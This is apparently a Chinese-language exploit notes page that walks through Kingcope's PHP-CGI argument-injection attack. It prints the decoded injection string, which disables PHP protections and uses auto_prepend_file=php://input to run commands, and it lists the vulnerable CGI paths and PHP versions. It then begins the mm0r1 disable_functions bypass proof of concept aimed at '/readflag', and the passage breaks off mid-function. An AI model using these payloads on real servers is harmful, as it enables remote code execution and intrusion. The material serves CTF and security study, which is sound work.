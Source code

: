 

解码出来是



```php
%s?-d allow_url_include=on -d safe_mode=off -d suhosin.simulation3Don -d disable_functions="" -d open_basedir=none -d auto_prepend_file=php://input -d cgi.fo"rce_redirect=0 -d cgi.redirect_status_env=0 -n
```



这样Kingcope的攻击代码思路就出来了。

关闭各种防护的参数，打开各种危险的参数，最后利用auto_prepend_file（或auto_append_file）这个参数把黑客需要执行的系统命令传递过去了。

### 利用条件

1、apache+php是用cgi模式跑的，例如apache的mod_cgid

2、php解释器需要可以从下面的url访问到，当然或许可能是其他的url，这个具体要看你的配置

```html
	/cgi-bin/php
	/cgi-bin/php5
	/cgi-bin/php-cgi
	/cgi-bin/php.cgi
	/cgi-bin/php4
```

3、php版本
PHP版本小于5.3.12
PHP版本小于5.4.2

### 推荐网址

https://www.freebuf.com/articles/web/169156.html

## 脚本

```php
<?php
# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
# released as of 04/10/2019, specifically:
# 
# PHP 7.0 - 7.0.33
# PHP 7.1 - 7.1.31
# PHP 7.2 - 7.2.23
# PHP 7.3 - 7.3.10
#
# Author: https://github.com/mm0r1
pwn("/readflag");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
```